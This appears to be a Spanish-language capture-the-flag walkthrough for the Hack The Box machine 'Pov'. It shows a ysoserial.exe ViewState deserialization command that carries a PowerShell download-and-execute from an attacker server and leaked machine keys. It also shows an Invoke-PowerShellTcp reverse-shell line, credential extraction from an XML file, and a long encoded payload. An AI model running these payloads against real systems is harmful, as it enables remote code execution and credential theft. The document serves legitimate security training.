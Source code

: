 ### Ping
```python
ping -c 1 10.10.11.251
PING 10.10.11.251 (10.10.11.251) 56(84) bytes of data.
64 bytes from 10.10.11.251: icmp_seq=1 ttl=127 time=157 ms

--- 10.10.11.251 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 156.729/156.729/156.729/0.000 ms
```

### TTL 127= Windows
### nmap
```python
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-title: pov.htb
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.52 seconds
```
obtenemos el nombre de dominio del host y lo agregamos al /etc/hosts

### Enumeración del puerto http (80)

![[Pasted image 20240310205202.png]]

### Fuzzing con wfuzz (Directorios)
no obtenemos nada interesante por el momento
![[Pasted image 20240310205503.png]]

### Fuzzing con wfuzz (Subdominios)
encontramos un subdominio sospechoso. lo agregamos al /etc/hosts
![[Pasted image 20240310210838.png]]

### Web dev.pov.htb

![[Pasted image 20240311105847.png]]

### BurpSuite
interceptamos la petición de download cv
![[Pasted image 20240310212727.png]]
cambiamos el EVENTVALIDATION= cv.pdf por = /web.config. esto nos muestra información de la pagina la cual la hace vulnerable a una explotacion de VIEWSTATE

### Vulnerabilidad Exploiting __VIEWSTATE
![[Pasted image 20240311105353.png]]
usaremos la herramienta YSoSerial.Net esta herramienta es para maquina windows asi que debes tener una maquina windows donde poder ejecutar esto (tambien puedes ejecutarlo desde kali linux pero debes complementarlo con otras herramientas)

### YSoSerial.Net
usaremos la siguiente sintax
```python
C:\FilesExplotation\ysoserial-1.34\Release>.\ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "powershell.exe iex (New-Object Net.WebClient).DownloadString('http://10.10.14.64/Invoke-PowerShellTcp.ps1')" --apppath="/" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43"  --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"
```

![[Pasted image 20240311110529.png]]

### Invoke-PowerShelltcp
ahora usaremos el invoke-powershell para invocar automaticamente esta shell. al final del codigo debemos agregar la siguiente linea 

```python
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 4444
```

![[Pasted image 20240311110955.png]]

### Servidor con python
estaremos compartiendo este archivo en un servidor con python
![[Pasted image 20240311110845.png]]

### BurpSuite
finalmente usaremos el codigo que hemos generado con el YSoSerial.Net intectandolo en el parametro **VIESTATE** 
Nota: el codigo debe ir URLEncode puede hacerlo desde burpsuite seleccionando el codigo y presionando CTRL + U 
![[Pasted image 20240311111432.png]]
### rlwrap
estaremos a la escucha con rlwrap para recibir nuestra reverse shell
![[Pasted image 20240311105747.png]]

### xml

![[Pasted image 20240311112314.png]]
En este archivo obtenemos otro Usuario llamado **alaading** y la contraseña codificada.

### Import-Clixml 
con import-clixml podemos extraer los datos de ese archivo xml
![[Pasted image 20240311175136.png]]

###  

![[Pasted image 20240311181743.png]]

R0joNK0xfsrbj6hXJWsdR/Aunc4iwYQieYABw5V7xxaSmzHkgHGwy8/AWpbhGk%2btq7aHLsakG6Kx9X2YOZxoalUFpgLGQI0SMMt7REc9UhPTx7RwQYJ5F%2bG%2bPIrF4an95Wm4TzN1afxXl21Ks6gAr7aksLZLuM%2bqQmqWIYlRcmt7qepwSKsTQIXeij0Z3yvleKl0akkk11hY5u0Fd5iyhs1gSYksM2ad6klvG45l0KrdWndWl1yrV1OtImsSOpytC9UMkjYt3LCauyIVH3YmFFXFgFekDZpIO3UsNHxvNa/P69N24/V6jW4/H1BPh63/itiV72Z1QchzB5O4m2gwZt%2bmLZ2jkO%2b3nZRJvjYVk6S5B4VT/ava6Fk/n9UpbEym4nDri9O4QIYKnnNVyYrAkXHnKy4yKqtUBvsOqhIJjJ1VxT/SUGMMYi%2bEM/IhRiLUnUUjxgdPwXlpD2tXiZ4N6khYWNVAF6LqWv3uU3lmIFHx62PC7mR4NU5HXrl3t0Nc%2b/9%2bNIv2GpKzmt7dGO/hylmavRws7K4FOUEcgdZIqwkL3uUBpnMjR64ZB2aJMwtS4e4Y9W2NmH8Kn91cso7ZF523BHvgKANoK9crhHQnskUhQwEsmhb1FZnGs6V/1vfHUb29IJf44nPFJiGq2JFAl9%2bok1L33RUcQISatYQ5vFYRztgtePj57VsHcfS7462S6owQeflANXz5rYigDmN6zImGfsxQRbG3VoJV%2bS6V6/9xrLUaNzrgI5HmlQY3AGBANhwVD71BffEd8aHVTNaNrV4WLs6IoqZ5P/HBRMt20/TjAK07j6ri%2bUYrftMnbJXlxJAjHKOO7PXhHG2unVQb4TDDxvf9DUg/y6k5WQhr9X9iS2fEU5C8HQ97qbDezYwXNe2v0D3Bw%2bMSikiaQjpBypzQP1AtHwOB0H3H59fpYth5KYsWhVG1oACZDuhcwt6e6%2b8cfszTs7NuvBXqzcjPFWZKypB6xAFp47MFe62KaHLhUHAW1eK78ao/yz2jobzW2KUSWEERFfbHZJFmhjPBopkpjHXqnYUIW691RnZuUQpwVYqfTqGbXTNYfG2Q46hYCsLLES%2bL36EVj0PSq1etuAFFP/PWL05YndONUON5ZiyoP/laheq4VDVbKNwZ9EbQuBKhTCXnex463y6ROeY7tYuEDL4lVrQXgxaJ9I%2bikuZJZBze8TUf3Tq0PAUa9kHCxnnJOzb/dPBjHNVQSGo8NmS2Fwa8mJRLHWrjDVYDuje7Zr3A%2bLnldFnSrDRK2qY%2bJnslZGTtL2ZduI83eBGN2nWJxQ2z4FEjq5J8Ux3a3oJ1%2bmMUs3trMQLV8uZSv2Bfc4z2YG2SKpg615CcmGs9AaoCvzdDCnVu0fUkSCeeI94q9cpGmb2XGg%2bUbqVrGwp7gYYu2A%3d%3d